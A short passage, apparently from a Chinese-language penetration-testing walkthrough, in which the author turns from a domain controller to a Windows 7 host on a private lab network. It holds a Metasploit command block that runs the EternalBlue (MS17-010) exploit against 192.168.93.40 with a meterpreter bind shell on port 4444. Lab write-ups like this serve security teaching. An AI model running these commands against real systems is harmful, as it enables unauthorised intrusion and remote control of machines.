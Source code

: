 会话创建失败，域控这个先放一放，看看 WIn7 机器能不能进行上线

```plain
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.93.40
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.40
set lport 4444
exploit
```

[![](assets/1708094050-8671e96fb14638a888d98859ba0ed120.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150407-d0cb765a-1001-1.png)

